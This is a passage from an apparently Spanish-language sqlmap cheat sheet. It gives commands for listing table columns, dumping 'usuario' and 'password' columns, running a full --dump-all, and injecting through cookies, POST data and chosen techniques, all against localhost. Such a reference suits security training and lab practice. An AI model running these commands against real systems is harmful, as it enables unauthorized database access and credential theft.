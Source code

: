 
##### 4️⃣ Ver columnas de una tabla

```bash
sqlmap -u "http://localhost/app.php?id=1" -D nombre_db -T nombre_tabla --columns
```

---

##### 5️⃣ Extraer datos de columnas

```bash
sqlmap -u "http://localhost/app.php?id=1" -D nombre_db -T nombre_tabla -C usuario,password --dump
```

- Extrae datos de las columnas `usuario` y `password`.

---

##### 6️⃣ Ataque automático completo (modo agresivo)

```bash
sqlmap -u "http://localhost/app.php?id=1" --dump-all
```

- Extrae **todo lo que pueda**.

---

##### 7️⃣ SQLi con cookie (autenticación por sesión)

```bash
sqlmap -u "http://localhost/app.php?id=1" --cookie="PHPSESSID=abc123"
```

---

##### 8️⃣ SQLi en POST

```bash
sqlmap -u "http://localhost/login.php" --data="usuario=admin&clave=123"
```

---

##### 9️⃣ Forzar uso de técnica específica (por ejemplo, Time-based)

```bash
sqlmap -u "http://localhost/app.php?id=1" --technique=T
```

- `T`: Time-based
- `B`: Boolean-based
- `E`: Error-based
- `U`: Union-based
- `S`: Stacked queries

---
